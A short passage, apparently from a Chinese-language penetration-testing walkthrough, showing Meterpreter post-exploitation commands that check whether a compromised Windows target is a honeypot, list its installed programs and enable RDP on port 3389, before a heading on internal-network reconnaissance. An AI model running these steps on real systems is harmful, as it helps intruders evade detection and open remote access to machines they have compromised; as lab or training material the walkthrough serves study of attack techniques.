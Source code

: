 ```
dir或ls # 查看目录
run post/windows/gather/checkvm # 判断靶机是否进入蜜罐
run post/windows/gather/enum_applications # 列举安装程序
```

![截图](b711e2312cf3f8499bf46171aecae1c2.png)

打开3389端口

```
run post/windows/manage/enable_rdp
```

![截图](31f58881ca31ee6e64256ee148c374a5.png)

<br/>

# 0x04 内网信息收集
